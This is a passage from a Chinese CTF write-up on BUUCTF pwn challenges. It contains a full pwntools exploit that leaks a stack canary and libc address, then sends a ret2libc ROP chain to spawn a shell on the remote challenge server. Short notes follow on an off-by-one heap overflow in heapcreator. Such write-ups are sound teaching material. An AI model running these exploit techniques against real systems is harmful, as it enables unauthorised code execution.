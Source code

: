 ```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29017)
def Input(content):
    io.sendafter(b'>> ', b'1'.ljust(0x20, b' '))
    io.send(content)
def Output():
    io.sendafter(b'>> ', b'2'.ljust(0x20, b' '))
Input(cyclic(0x89))
Output()
io.recv(0x88)
canary = u64(io.recv(8))
canary &= 0xFFFFFFFFFFFFFF00
print(hex(canary))

payload = cyclic(0x90)
payload += p64(0xdeadbeefdeadbeef)
Input(payload)
Output()
io.recv(0x98)
retaddr = u64(io.recv(6) + b'\x00\x00')
print(hex(retaddr))
libc_start_main = retaddr - 240
libc = LibcSearcher('__libc_start_main', libc_start_main)
base = libc_start_main - libc.dump('__libc_start_main')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x88)
payload += p64(canary)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0x400A93)
payload += p64(binsh)
payload += p64(sys)
Input(payload)
io.sendafter(b'>> ', b'3'.ljust(0x20, b' '))
io.interactive()
```
# buu064-0ctf_2017_babyheap
同第29题。
# buu065-hitcontraining_heapcreator
![](https://img-blog.csdnimg.cn/ee98c4fd428c48e5a5cce67ba8c49080.png)
容易得到程序控制的结构体如上，一共可以申请至多10个这样的结构体。包含创建、删除、打印、修改选项，其中修改选项中含有off by one漏洞。
![](https://img-blog.csdnimg.cn/2dd662ca768446d3ae2390f0efe29bbd.png)
这里read_input函数中使用的是read函数，因此这一个溢出的字节可以是任何值。将这个字节的值变大会导致堆块重叠。
![](https://img-blog.csdnimg.cn/7f8572fa62504c848ba59db286f7462d.png)
